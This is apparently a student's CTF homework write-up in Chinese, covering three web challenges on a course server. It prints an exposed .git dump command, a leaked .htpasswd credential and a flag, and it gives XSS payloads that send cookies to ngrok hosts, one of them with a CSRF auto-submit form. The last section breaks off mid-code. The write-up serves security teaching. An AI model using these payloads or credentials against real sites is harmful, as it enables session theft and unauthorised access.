






# Hw04

## The Stupid Content Tracker

### Intro
.git 資料夾為使用 git 維護的專案, 用來紀錄專案資料而自動產生的資料夾, 內容包含 log, branch info, 甚至是 source file. <br>
而在沒有設定好權限的情況下, 如果 .git 不幸可以從 server 中被存取, 則原始碼, log 等等資料都會外流. <br>

### Attack
進入 `https://edu-ctf.csie.org:44302/.git/` 後, 雖然頁面顯示的是 Forbidden, 不過若我們嘗試直接存取檔案 `.git/HEAD`, 則可以發現其實可以存取, 代表權限設置不能看 `.git/` 但是可以看 `./git/*`. <br>

而下一步, 我們可以一個一個慢慢撈, 也可以使用工具 [GitTools](https://github.com/internetwache/GitTools) 來幫你 traverse 整個 `.git/` 目錄並 dump 出來. <br>
- 使用方式為: `./gitdumper.sh https://edu-ctf.csie.org:44302/.git/ my_dir`

Dump 完後, 透過 `git checkout commit` 來看先前的 commit info, 可以一個一個慢慢看到底改變了哪些, 到最後會發現
1. .htpasswd
    - `thewebmaster:ols2Xrmdja7XaaMP`
    - 用戶可以透過登入的方式來存取特定網頁
2. admin_portal_non_production/.htaccess
    - 需要認證的帳號密碼才能存取此網頁

於是可以知道, 透過 .htpasswd 紀錄的帳號密碼, 可以訪問 admin_portal_non_production/ 下的資料. <br>

 <br>
登入後, 即可拿到 flag.

`FLAG{_man_git_THe_StUPid_CONtEnt_TrAcKEr......}`

## Zero Note Revenge

### Analyze
首先, 題目直接講明 admin cookie 是 `HttpOnly`, 代表不能用 js 去存取 (document.cookie), 所以我們就算有 XSS, 也沒辦法直接用 fetch or window.location + document.cookie 拿到. <br>

不過我們可以發現, 若存取 `report/g4rb4g3` 之類的文章, 會因為文章不存在而噴 error, 仔細看能看到 error msg 中還有 cookie info <br>


既然 cookie 可以透過存取頁面取得, 不需要 js, 那這樣就能 bypass httponly 的 rule 了.

### Attack
1. 透過 ajax GET 可以取得 cookie 的頁面, 並將 response 存成變數
2. 透過 window.location 或是 fetch, 將 response 帶入 url query 送給我們的 server

```js
<script>
xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
	if (xmlhttp.readyState == 4 && xmlhttp.status == 500) {
		window.location.href = " https://ed1dfd4bda6f.ngrok.io/"+btoa(xmlhttp.responseText);
		}
}
xmlhttp.open("GET", "/note/qq");
xmlhttp.send();
</script>
```
Server 會得到超長的 query XD



拿去做 base64 decode 後, 就得到 flag 了


## Zero Meme

### Analyze
使用任意帳密登入後, 會發現有兩個 input box, 一個是顯示圖片, 一個是給 admin 點的 link. <br>
透過測試可以發現, 第一個 input box (Update your favorite Meme) 會將輸入當作是字串放入 img 的 src attribute 中, 而過濾也只比對前面是否為 `http://` or `https://` 開頭.<br><br>
如果調皮一點, 閉合 image tag 後亂塞 alert script 呢？<br>
`http://"><script>alert(1)</script>
如果有方法讓我們的 server 模擬第一個 input box 送 request, 就能執行 JS, 利用 fetch 將 cookie 送過來了. SameSite 的防禦, 由於 meme server cookie 的 SameSite 是使用 Lax, 而 Lax 有著著名的 2min POST, 可以參考[此文章](https://medium.com/@renwa/bypass-samesite-cookies-default-to-lax-and-get-csrf-343ba09b9f2b). <br><br>

內文主要是說: 當 cookie reset 或是更新時, 如果你 cookie SameSite 的 type 是 Lax 的話, 則可以在 2min 內在 other site 打 cookie 所屬的 site 的 POST request, 透過這種方式可以繞過 samesite 的防禦.

### Attack
1. 透過第一個 input box 的 POST request, 產生可以取得 admin cookie 的 js payload
    - `http://"><script>fetch("https://92f59e2b5f3c.ngrok.io/"+document.cookie)</script>
      <input
        type="text"
        name="intro"
        placeholder="https://imgflip.com/i/4kp3ij"
        value='http://"><script>fetch("http://your-server/"+document.cookie)</script>
       <button type="submit">Submit</button>
</form>
<script>
document.getElementById('qq').submit();
</script>
```
<br>

得到 fetch 結果:
